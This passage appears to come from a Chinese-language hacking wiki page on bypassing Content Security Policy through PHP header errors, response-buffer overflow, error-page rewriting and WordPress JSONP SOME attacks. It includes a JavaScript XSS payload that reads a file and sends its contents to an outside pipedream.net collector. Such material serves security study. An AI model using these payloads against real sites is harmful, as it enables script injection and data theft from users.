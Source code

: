 加入[**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy)服务器，与经验丰富的黑客和漏洞赏金猎人交流！

**黑客见解**\
参与深入探讨黑客的刺激与挑战的内容

**实时黑客新闻**\
通过实时新闻和见解，跟上快速变化的黑客世界

**最新公告**\
了解最新的漏洞赏金启动和重要平台更新

**加入我们** [**Discord**](https://discord.com/invite/N3FrSbmwdy)，今天就开始与顶级黑客合作！

## 绕过CSP的危险技术

### 参数过多时的PHP错误

根据[**这个视频中最后提到的技术**](https://www.youtube.com/watch?v=Sm4G6cAHjWM)，发送过多参数（1001个GET参数，尽管你也可以使用POST参数和超过20个文件）。任何在PHP网页代码中定义的**`header()`**都**不会被发送**，因为这将触发错误。

### PHP响应缓冲区溢出

PHP以默认方式**缓冲响应到4096**字节。因此，如果PHP显示警告，通过提供**足够的数据在警告中**，**响应**将在**CSP头**之前**发送**，导致头被忽略。\
然后，这个技术基本上是**用警告填充响应缓冲区**，以便CSP头不被发送。

来自[**这个写作**](https://hackmd.io/@terjanq/justCTF2020-writeups#Baby-CSP-web-6-solves-406-points)的想法。

### 重写错误页面

根据[**这个写作**](https://blog.ssrf.kr/69)，似乎可以通过加载一个错误页面（可能没有CSP）并重写其内容来绕过CSP保护。
```javascript
a = window.open('/' + 'x'.repeat(4100));
setTimeout(function() {
a.document.body.innerHTML = `<img src=x onerror="fetch('https://filesharing.m0lec.one/upload/ffffffffffffffffffffffffffffffff').then(x=>x.text()).then(x=>fetch('https://enllwt2ugqrt.x.pipedream.net/'+x))">`;
}, 1000);
```
### SOME + 'self' + wordpress

SOME是一种利用XSS（或高度限制的XSS）**在页面的一个端点**中**滥用** **同一来源的其他端点**的技术。这是通过从攻击者页面加载易受攻击的端点，然后将攻击者页面刷新到您想要滥用的同一来源的真实端点来实现的。这样，**易受攻击的端点**可以在**有效载荷**中使用**`opener`**对象来**访问** **要滥用的真实端点的DOM**。有关更多信息，请查看：

{% content-ref url="../xss-cross-site-scripting/some-same-origin-method-execution.md" %}
[some-same-origin-method-execution.md](../xss-cross-site-scripting/some-same-origin-method-execution.md)
{% endcontent-ref %}

此外，**wordpress**在`/wp-json/wp/v2/users/1?_jsonp=data`中有一个**JSONP**端点，该端点将**反射**输出中发送的**数据**（仅限字母、数字和点的限制）。

攻击者可以利用该端点**生成针对WordPress的SOME攻击**并将其嵌入`<script s`rc=`/wp-json/wp/v2/users/1?_jsonp=some_attack></script>`中，请注意这个**脚本**将被**加载**，因为它是**被'self'允许的**。此外，由于安装了WordPress，攻击者可能通过**易受攻击的** **回调**端点滥用**SOME攻击**，该端点**绕过CSP**以给予用户更多权限，安装新插件...\
有关如何执行此攻击的更多信息，请查看[https://octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution/](https://octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution/)
